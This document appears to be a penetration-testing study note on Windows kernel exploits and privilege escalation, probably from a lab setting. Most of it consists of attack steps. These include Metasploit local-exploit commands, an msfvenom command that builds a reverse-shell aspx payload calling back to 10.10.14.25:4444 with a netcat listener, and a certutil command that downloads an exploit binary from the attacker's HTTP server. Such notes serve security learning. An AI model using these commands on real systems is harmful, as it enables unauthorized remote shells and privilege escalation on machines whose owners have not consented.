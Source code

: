 04. Kernel Exploits

## Overview:
Kernel:
- Computer program that controls everything in the system
- Facilitates interactions between hardware and software components
- A translator
![d7c0dbe362715c030c0f71b7266335b4.jpg](../../_resources/f33449447f494d77a8e516b2680686e1.jpg)
![aab0d8459510021d15a6c010024fb06e.jpg](../../_resources/99045f64fa6145c68b79a19bb8730d40.jpg)
List of windows kernel exploits: https://github.com/SecWiki/windows-kernel-exploits

### Escalation with Metasploit
https://seclists.org/fulldisclosure/2010/Jan/341 is the used exploit
- Get a meterpreter session
- `background` or control-z
- `search MS##-##`
- `use exploit/windows/local/STUFF`
- `sessions`
- `set session #`
- `set LHOST IP`
- `set LPORT 5555` # make sure it is different than the meterpreter port
- `run`
- You may need to run multiple times/change settings with `options` again

### Manual Escalation without Metasploit (uploading aspx file)
#### Getting a shell
- `msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.25 LPORT=4444 -f aspx > manualshell.aspx`
- `nc -nvlp 4444` # Listening for shell
- Run the aspx file on the web server or whatever

#### Priv Escalation

- Search for exploits in google or https://github.com/SecWiki/windows-kernel-exploits
- Download, (compile,) run on machine!
- Transferring file:
	- `python -m SimpleHTTPServer 80` or `python3 -m http.server 80`
	- `certutil -urlcache -f http://10.10.14.25/MS10-059.exe ms.exe`